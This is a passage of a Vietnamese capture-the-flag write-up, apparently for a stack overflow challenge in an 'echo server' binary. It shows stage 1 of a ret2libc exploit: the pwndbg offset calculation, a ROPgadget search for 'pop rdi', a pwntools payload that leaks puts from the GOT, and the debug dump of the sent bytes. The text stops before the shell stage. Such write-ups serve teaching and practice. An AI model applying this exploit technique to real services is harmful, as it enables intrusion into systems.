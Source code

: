 ## Khai thác lỗ hổng:
### *Stage 1: Leak libc_base*

- Đầu tiên ta sẽ đi tính offset:
```sh
pwndbg> tel
00:0000│ rsp 0x7fffffffdc30 —▸ 0x7ffff7dd07e3 (_IO_2_1_stdout_+131) ◂— 0xdd18c0000000000a /* '\n' */
01:0008│-088 0x7fffffffdc38 —▸ 0x7ffff7a70fc1 (_IO_do_write+177) ◂— mov rbp, rax
02:0010│ rsi 0x7fffffffdc40 —▸ 0x7fffffffdcd0 ◂— 'WeLcOmE To mY EcHo sErVeR!'
03:0018│-078 0x7fffffffdc48 —▸ 0x7ffff7dd0760 (_IO_2_1_stdout_) ◂— 0xfbad2887
04:0020│-070 0x7fffffffdc50 ◂— 0xa /* '\n' */
05:0028│-068 0x7fffffffdc58 —▸ 0x7fffffffdcd0 ◂— 'WeLcOmE To mY EcHo sErVeR!'
06:0030│-060 0x7fffffffdc60 —▸ 0x7ffff7dcc2a0 (_IO_file_jumps) ◂— 0
07:0038│-058 0x7fffffffdc68 ◂— 0x1b
pwndbg>
08:0040│-050 0x7fffffffdc70 ◂— 0
09:0048│-048 0x7fffffffdc78 —▸ 0x7ffff7a71473 (_IO_file_overflow+259) ◂— cmp eax, -1
0a:0050│-040 0x7fffffffdc80 ◂— 0x1a
0b:0058│-038 0x7fffffffdc88 —▸ 0x7ffff7dd0760 (_IO_2_1_stdout_) ◂— 0xfbad2887
0c:0060│-030 0x7fffffffdc90 —▸ 0x7fffffffdcd0 ◂— 'WeLcOmE To mY EcHo sErVeR!'
0d:0068│-028 0x7fffffffdc98 —▸ 0x7ffff7a64bd2 (puts+418) ◂— cmp eax, -1
0e:0070│-020 0x7fffffffdca0 —▸ 0x7ffff7dcc2a0 (_IO_file_jumps) ◂— 0
0f:0078│-018 0x7fffffffdca8 ◂— 0
pwndbg>
10:0080│-010 0x7fffffffdcb0 ◂— 0
11:0088│-008 0x7fffffffdcb8 ◂— 0x1b
12:0090│ rbp 0x7fffffffdcc0 —▸ 0x7fffffffdd70 —▸ 0x4008b0 (__libc_csu_init) ◂— push r15
13:0098│+008 0x7fffffffdcc8 —▸ 0x4008a0 (main+303) ◂— jmp main+293
14:00a0│+010 0x7fffffffdcd0 ◂— 'WeLcOmE To mY EcHo sErVeR!'
15:00a8│+018 0x7fffffffdcd8 ◂— 'To mY EcHo sErVeR!'
16:00b0│+020 0x7fffffffdce0 ◂— 'Ho sErVeR!'
17:00b8│+028 0x7fffffffdce8 ◂— 0x2152 /* 'R!' */
```
- Ta sẽ tính khoảng cách từ lúc nhập chuỗi tràn đến địa chỉ 0x7fffffffdcc8 để điều khiển chương trình.
```sh
pwndbg> p/x 0x7fffffffdcc8 - 0x7fffffffdc40
$1 = 0x88
```
-> offset = 0x88
* Sau đó ta sẽ tận dụng hàm puts(puts_got) để tìm libc_leak
* Đầu tiên ta tìm pop_rdi để thiết lập tham số cho hàm puts là puts_got:
```sh
$ ROPgadget --binary vuln_patched | grep "pop rdi"
0x0000000000400913 : pop rdi ; ret
```
- Thực thi puts_plt rồi quay lại hàm do_stuff() để get shell ở bước sau.
```py
pop_rdi = 0x0000000000400913
payload = flat(b'a'*0x88, pop_rdi, exe.got.puts, exe.plt.puts, exe.sym.do_stuff)
p.sendlineafter(b'sErVeR!\n',payload)
```
- Gửi thử xem nhận đc dữ liệu chưa
```sh
[DEBUG] Received 0x1b bytes:
    b'WeLcOmE To mY EcHo sErVeR!\n'
[DEBUG] Sent 0xa9 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000080  61 61 61 61  61 61 61 61  13 09 40 00  00 00 00 00  │aaaa│aaaa│··@·│····│
    00000090  18 10 60 00  00 00 00 00  40 05 40 00  00 00 00 00  │··`·│····│@·@·│····│
    000000a0  d8 06 40 00  00 00 00 00  0a                        │··@·│····│·│
    000000a9
```